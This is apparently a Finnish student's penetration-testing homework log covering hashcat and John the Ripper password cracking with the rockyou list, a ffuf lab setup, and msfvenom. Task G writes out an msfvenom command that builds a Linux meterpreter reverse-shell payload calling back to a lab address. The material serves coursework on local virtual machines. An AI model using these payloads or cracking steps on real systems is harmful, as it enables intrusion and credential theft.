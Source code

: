 # H4 Marraskuu2024!

## Tehtävä X Lue ja Tiivistä

### Cracking Passwords with Hashcat

- Sanakirja vaaditaan hashcattaamiseen
- Todella hyödyllinen lisä komento on -m, jolla saat selville algorytmien numeron, jonka avulla tarkentaa hashcattauksen tiettyihin algorytmeihin.
- Status cracked tarkoittaa ratkaistua salasanaa ja exhausted että kaikki sanat on käyty läpi eikä osumaa löytynyt.
- näytönohjain vaikuttaa koodin suoritus nopeuteen.


### Crack File Password With John

- John ohjelman käyttöön tarvitaan lisä kirjastoja
- vaatii muutaman GB ramia
- Zip paketit murretaan kahdessa vaiheessa, ensin napataan hash ja sitten tehdään sanakirjahyökkäys.
- toimii todella moneen eri formaatin tiedostoon.


### Hacking user credentials

- Suurin osa ihmisistä käyttää samaa salasanaa monessa paikassa.
- Nykyään helppo murtaa salasanoja mms. heikkojen algorytmien, sanakirjojen ja parempien tietokoneiden takia.
- pitkä salasana parempi kuin lyhyt monimutkainen
- 2 factor authentication suositeltavaa


### MSFVENOM

- lisäkomennolla -a saat arkkitehtuuri valinnan
- Monia erityyppisisa payloadeja kuten reverse hell, bindshell, create user, cmd shell, execute command ja encoder
- windowssille, linuxille macille ja verkkosivuille omat koodit, myös koodi kieli payloadeja.


## Tehtävä A

Äloitin tehtävän yrittämällä asentaa hashcat ja hashid kaliini, mutta molemmat oli jo asennettuna valmiiksi niin jatkoin rockyou tekstitiedoston lataamiseen ja varmistin vielä että sieltä löytyy tarpeeksi sanoja.

![image](https://github.com/user-attachments/assets/3e87b384-906c-4834-8f2a-48033b928980)

seuraavaksi kopioin esimerkki salasanan ja selvitin mitä tilaa hashcatissa pitäisi ajaa suorittamaalla hashid analyysin.

![image](https://github.com/user-attachments/assets/5e8935cc-f3a1-4525-b8d5-3779cc15dc4b)

Valitsin tilaksi MD5, jonka tilanumero oli 0 ja syötin seuraavaksi sanakirja hyökkäys komennon.

![image](https://github.com/user-attachments/assets/972b2c0f-fd84-421a-8d75-fe4ea49c7c96)

Komento antoi vastauksen cracked ja luin sitten cat komennolla mikä kyseinen salasana oli.

![image](https://github.com/user-attachments/assets/b0098789-52c4-4888-9b14-fd9c303baaab)


## Tehtävä C (tehtävänannossa ei ole B tehtävää)

Ajoin ohjeen apt-get asennus koodi rivin ja huomasin että libssl-dev ja zlib-gst olivat ainoat joita ei voitu asentaa. yritin muutaman tunnin selvittää miten saisin zlib-gst asennettua. Ensin yritin asentaa binäärin lataamalla sen netistä ja asentamalla komennolla dpkg, mutta asennus vaati gnu smalltalk ja gnu smalltalk commonin. seuraavaksi yritin asentaa gnu smalltalkin mutta se vaati mmmap ja aloin uskomaan että lähestyn asiaa väärästä suunnasta ja päätin jatkaa toiseen ongelmaan. libssl löysin apt search komennolla mutta install komennolla tuli ilmoitus ip not found. googlettamalla ongelmaan päädyin ratkaisuun että apt/sources.list tiedosto on virheellinen sillä apt-get upgrade komento ei myöskään toiminut. lisäsin netistä löytämäni komentorivit source tiedostoon ja sain apt-get komennot toimimaan taas.

![image](https://github.com/user-attachments/assets/4f3a58a3-5548-4212-aab2-61266990ebef)

Yrittäessäni uudestaan asentaa libssl ilmoitti kali että riippuvuudet menevät päällekkäin toisen tiedoston kanssa enkä tiennyt mitä muuta yrittää. Päätin kokeilla jos john toimisi silti.

![image](https://github.com/user-attachments/assets/ce21ff5d-d5ab-4ac1-b33d-2d8bf004af10)

Asennus jäi jumiin libssl puutteeseen, jonka vuoksi en saanut tehtävää tehtyä pidemmälle.

## Tehtävä D

Aloitin tehtävän asentamalla docker.io git ffuf paketin sekä lataamalla fuffme githubista.

![image](https://github.com/user-attachments/assets/24d47c4a-a840-4675-bd19-c88edb79d987)

Seuraavaksi menin ladattuun kansioon ja loin uuden docker tiedoston. ajaessani uutta tiedostoa en kuitenkaan saanut sitä löytämään fuffme:latest tagia mutta kun ajoin saman komennon uudestaan tiedoston luomiseen se alkoi toimimaan vaikka mitään ei muutettu.

![image](https://github.com/user-attachments/assets/2d657a70-2096-4f6a-ad9e-edbe106b7998)

![image](https://github.com/user-attachments/assets/1d010e49-c0b2-429e-a9cb-8c9818c74fab)

![image](https://github.com/user-attachments/assets/b8575b4b-3763-496d-b46a-4a93608a5317)

Testasin vielä curlin

![image](https://github.com/user-attachments/assets/93c81589-0dfd-41d7-b25b-aac01fba0de1)

Sitten latasin uudet sanalistat.

![image](https://github.com/user-attachments/assets/c07b21c3-f938-442b-add0-43b97d50b7e6)

Yritin ajaa ffuf komennon, mutta sain pelkkiä virheitä tuloksena enkä saanut selville miksi tämä ei toiminut vaikka yritin tehdä ohjeiden mukaan uudestaan copy pastea hyödyntäen kaikki komennot.

![image](https://github.com/user-attachments/assets/2751d4dc-1e65-4084-8ea4-07506c01e8aa)

## Tehtävä F

päätin kokeilla käyttää rockyou.txt tiedostossa olevaa sanaa iloveyou. katsoin tiivisteen sha256sum algoritmilla sekä varmistin hashcat tila numeron hashid komennolla.

![image](https://github.com/user-attachments/assets/3b0a12af-d333-49d8-8d40-a6908a384d2b)

Tajusin että olin unohtanut komennostani lisä rivin -n, jonka vuoksi tiiviste on virheellinen. kävin ajamassa tiiviste koodin uudestaan echo -n iloveyou|sha256sum ja ajoin sen uudestaan.

![image](https://github.com/user-attachments/assets/8795e9a9-9e11-4a39-b159-1fa706a8c253)

Tiiviste rikottu.

## Tehtävä G

loin uuden payloadin msfvenomilla komennolla msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.88.101 LPORT=8080 -f elf > reverse.elf. Seuraavaksi loin uuden linux koneen virtual boxissa.





## Lähteet

O'reilly. 2017. Hacking user credentials. luettavissa: https://learning.oreilly.com/videos/the-art-of/9780135767849/9780135767849-SPTT_06_00/ Luettu: 16.11.2024

Karvinen. T. 2022. Cracking Passwords with Hashcat. Luettavissa: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/ Luettu: 16.11.2024

Karvinen. T. 2023. Crack File Password With John. Luettavissa: https://terokarvinen.com/2023/crack-file-password-with-john/ Luettu: 16.11.2024

Hacktricks. 2024. MSFVENOM - Cheatsheet. Luettavissa: https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom Luettu: 16.11.2024

Karvinen. T. 2024. Tunkeutumistestaus. Luettavissa: https://terokarvinen.com/tunkeutumistestaus/ Luettu: 16.11.2024

Kali. 2023. Kali Network Repositories (/etc/apt/sources.list). luettavissa: https://www.kali.org/docs/general-use/kali-linux-sources-list-repositories/ luettu 17.11.2024
